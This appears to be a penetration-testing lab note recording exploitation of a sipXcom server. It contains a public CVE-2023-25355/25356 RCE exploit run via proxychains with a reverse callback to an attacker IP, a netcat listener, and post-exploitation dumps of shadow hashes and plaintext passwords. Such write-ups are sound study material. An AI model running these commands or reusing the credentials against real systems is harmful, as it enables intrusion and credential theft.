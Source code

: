 proof.txt: 5b07ca066abbc790257a31c807b0e063

Used one of the logins from `sip.cfg`
Exploit used: https://github.com/AlexLinov/sipXcom-RCE/blob/main/CVE-2023-25355-25356.py
```sh
proxychains python CVE-2023-25355-25356.py --username l.nguyen --password ChangeMePlease__XMPPTest --target_jid j.jameson@skylark.com --server_address 172.16.229.32 --payload_option 1 --attack_ip 192.168.45.168
nc -nvlp 80
# In Logs
set superadmin password to 2008_EndlessConversation

# To restart service, create a backup or restore to an already created backup
```

# Post Exploitation
```sh
/usr/bin/htpasswd -b /etc/httpd/conf.d/provusers.tmp lvp2890 28904all
/usr/bin/htpasswd -b /etc/httpd/conf.d/provusers.tmp PlcmSpIp PlcmSpIp

PlcmSpIp:$6$ffdPBynY$NPz/.8W5wE.OXDtJ/OriNMzORD.AfMoaLZ8lhfRrzTayVqybkShtmVjnzYmmf.ydEJyGRAGyvojglP8c4nJ9/1:19362:0:99999:7:::
lvp2890:$6$NBXkoCsp$68eCBRSTxe4VHpcQf8hkK61NveuM0Ei8CzZJM/A/FXFeFoNQN/r/.7L8iWwgIBLekjI45Bx5QeNQnE.mMPxkI0:19362:0:99999:7:::
root:$6$0tSVLTBWrr/IyG5P$uY/XVirJZGqqHleJIiWp7v.B9PMQkCVdkBESyeaCo4KoeM4IcuDzlF4z2Rx.vt41jeTuymRyBstXwVOcXWtJb1::0:99999:7:::

# Sniff UDP packets using tcpdump
desktop:Deskt0pTermin4L
```